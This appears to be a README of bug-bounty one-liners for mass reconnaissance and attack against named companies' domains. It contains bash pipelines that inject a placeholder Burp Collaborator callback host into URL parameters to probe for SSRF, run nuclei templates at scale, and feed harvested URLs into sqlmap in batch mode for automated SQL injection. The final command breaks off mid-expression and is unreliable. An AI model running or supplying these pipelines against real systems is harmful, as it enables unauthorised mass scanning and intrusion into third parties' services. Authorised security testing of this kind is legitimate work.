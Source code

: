 ###  Recon to search SSRF Test

- [Explaining command](https://bit.ly/3shFFJ5)

```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```


###  ShuffleDNS to domains in file scan nuclei.

- [Explaining command](https://bit.ly/2L3YVsc)

```bash
xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```


###  Search Asn Amass

- [Explaining command](https://bit.ly/2EMooDB)

Amass intel will search the organization "paypal" from a database of ASNs at a faster-than-default rate. It will then take these ASN numbers and scan the complete ASN/IP space for all tld's in that IP space (paypal.com, paypal.co.id, paypal.me)

```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```

###  SQLINJECTION Mass domain file

- [Explaining command](https://bit.ly/354lYuf)

```bash

httpx -l domains -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```


###  Using chaos search js


- [Explaining command](https://bit.ly/32vfRg7)

Chaos is an API by Project Discovery that discovers subdomains. Here we are querying thier API for all known subdoains of "att.com". We are then using httpx to find which of those domains is live and hosts an HTTP or HTTPs site. We then pass those URLs to GoSpider to visit them and crawl them for all links (javascript, endpoints, etc). We then grep to find all the JS files. We pipe this all through anew so we see the output iterativlely (faster) and grep for "(http|https)://att.com" to make sure we dont recieve output for domains that are not "att.com".

```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s#]
```
